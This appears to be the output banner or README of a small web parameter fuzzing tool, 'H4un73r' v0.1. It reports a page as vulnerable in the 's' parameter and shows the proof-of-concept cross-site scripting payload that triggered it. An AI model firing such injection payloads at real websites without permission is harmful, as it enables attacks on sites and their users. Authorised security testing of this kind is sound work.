 # v0.1


******************************************************************************************************************************
* H4un73r.                                                                                                                                                                                                              *
* Force Brute Payloads in parameters.                                                                                                                                                                                   *
******************************************************************************************************************************
******************************************************************************************************************************
*                                                                                                                                                                                                                       *
* La pagina web(200) es vulnerable en el parametro: s="><svg/onload=alert(0)>                                                                                                                             *
*                                                                                                                                                         
******************************************************************************************************************************                                    
